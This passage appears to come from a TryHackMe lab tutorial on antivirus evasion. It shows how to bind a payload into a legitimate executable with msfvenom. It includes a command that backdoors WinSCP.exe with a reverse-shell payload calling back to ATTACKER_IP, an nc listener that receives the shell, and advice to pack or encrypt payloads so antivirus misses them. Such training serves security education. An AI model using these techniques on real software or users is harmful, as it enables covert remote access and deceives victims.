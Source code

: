 Binding with msfvenom

You can easily plant a payload of your preference in any .exe file with `msfvenom`. The binary will still work as usual but execute an additional payload silently. The method used by msfvenom injects your malicious program by creating an extra thread for it, so it is slightly different from what was mentioned before but achieves the same result. Having a separate thread is even better since your program won't get blocked in case your shellcode fails for some reason.

For this task, we will be backdooring the WinSCP executable available at `C:\Tools\WinSCP`.

To create a backdoored WinSCP.exe we can use the following command on our Windows machine:

**Note:** Metasploit is installed in the Windows machine for your convenience, but it might take up to three minutes to generate the payload (the produced warnings can be safely ignored).

AttackBox

```shell-session
C:\> msfvenom -x WinSCP.exe -k -p windows/shell_reverse_tcp lhost=ATTACKER_IP lport=7779 -f exe -o WinSCP-evil.exe
```

The resulting WinSCP-evil.exe will execute a reverse_tcp meterpreter payload without the user noticing it. Before anything else, remember to set up an `nc` listener to receive the reverse shell. When you execute your backdoored executable, it should launch a reverse shell back at you while continuing to execute WinSCP.exe for the user:

|   |   |   |
|---|---|---|
|![winscp execution](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/06c3bd06d935a937b2af7dace6a41a27.png)|➜|AttackBox<br><br>```shell-session<br>user@attackbox$ nc -lvp 7779      <br>Listening on 0.0.0.0 7779<br>Connection received on 10.10.183.127 49813<br>Microsoft Windows [Version 10.0.17763.1821]<br>(c) 2018 Microsoft Corporation. All rights reserved.<br><br>C:\Windows\system32><br>```|

Binders and AV  

Binders won't do much to hide your payload from an AV solution. The simple fact of joining two executables without any changes means that the resulting executable will still trigger any signature that the original payload did.

The main use of binders is to fool users into believing they are executing a legitimate executable rather than a malicious payload.

When creating a real payload, you may want to use encoders, crypters, or packers to hide your shellcode from signature-based AVs and then bind it into a known executable so that the user doesn't know what is being executed.

Feel free to try and upload your bound executable to the THM Antivirus Check website (link available on your desktop) without any packing, and you should get a detection back from the server, so this method won't be of much help when trying to get the flag from the server by itself.


